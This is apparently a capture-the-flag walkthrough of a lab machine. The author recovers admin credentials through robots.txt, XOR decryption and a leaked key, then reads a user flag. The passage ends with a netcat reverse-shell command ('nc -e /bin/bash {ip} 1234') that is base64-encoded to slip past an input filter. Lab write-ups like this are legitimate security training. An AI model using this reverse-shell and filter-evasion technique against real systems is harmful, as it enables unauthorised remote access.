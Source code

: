 <img width="457" height="111" alt="Screenshot 2025-09-17 234615" src="https://github.com/user-attachments/assets/cef112b0-1065-4b2a-a034-3ef572a82416" />
Let's check the robots.txt file to see what I have there
<img width="1068" height="568" alt="Screenshot 2025-09-17 234706" src="https://github.com/user-attachments/assets/d160a349-7e5f-405f-8656-dea35fc4b9e7" />
There would be a file called testingnotes something which is emphasized Disallow, so I guess I would gather more information if I have a look at that file. 

<img width="1231" height="247" alt="Screenshot 2025-09-17 235254" src="https://github.com/user-attachments/assets/2e607fc5-63a7-4a34-851c-b14c1c9468ee" />

In this file, there are 3 important things:
- it uses XOR encryption as the algorithm
- testdata.txt
- terra is the username of the admin login portal
So I already have the username which means that I am going to brute-force it real quickly to get deeper. But it would take a lot of time, then I choose to decrypt XOR encrypted message using cyberchef.
I need a key for XOR decryption which has been mentioned earlier, it lies in the testdata.txt.
<img width="1905" height="135" alt="Screenshot 2025-09-18 000255" src="https://github.com/user-attachments/assets/2314a36a-5973-4eeb-9583-19d7eee70f54" />

Try with the first message, the second and the third respectively
<img width="1530" height="582" alt="Screenshot 2025-09-18 000344" src="https://github.com/user-attachments/assets/b88a1358-9c3f-468f-ba05-a6f98773d997" />
<img width="1540" height="569" alt="Screenshot 2025-09-18 000703" src="https://github.com/user-attachments/assets/df17b4f9-8481-4720-a8a6-b6d04947fc56" />
<img width="1540" height="595" alt="Screenshot 2025-09-18 000739" src="https://github.com/user-attachments/assets/e8e63af8-f160-4248-8590-5033484e272d" />

# Exploitation
The phrase "earthclimatechangebad4humans" is repeated again and again so I deduct that it would be the password for user terra?
Succefully login
<img width="1556" height="419" alt="Screenshot 2025-09-18 001356" src="https://github.com/user-attachments/assets/ade7051f-e403-4520-b979-444d91c6c20f" />
In order to find the flag specifically for user, I use this command:
```
cat /var/earth_web/user_flag.txt
```
<img width="1133" height="422" alt="Screenshot 2025-09-18 001327" src="https://github.com/user-attachments/assets/86e84f43-07b1-4ebd-bc72-43322a9a252e" />
Now it's time to get escalate. I would use netcat to connect this 
<img width="1912" height="369" alt="Screenshot 2025-09-18 002001" src="https://github.com/user-attachments/assets/5a7c7c66-3e2a-4f23-9b30-725d54787beb" />
Unfortunately, they forbide me against doing such thing. However, nothing can stop me. I will encode base 64 for this command then inject that into the input field again.

```
echo "nc -e /bin/bash {ip} 1234" | base64
```

TIP: using this command :
```
ifconfig | grep eth0
```

and afterward, I would receive an encoded string and this is the format that I am going to put in the input field
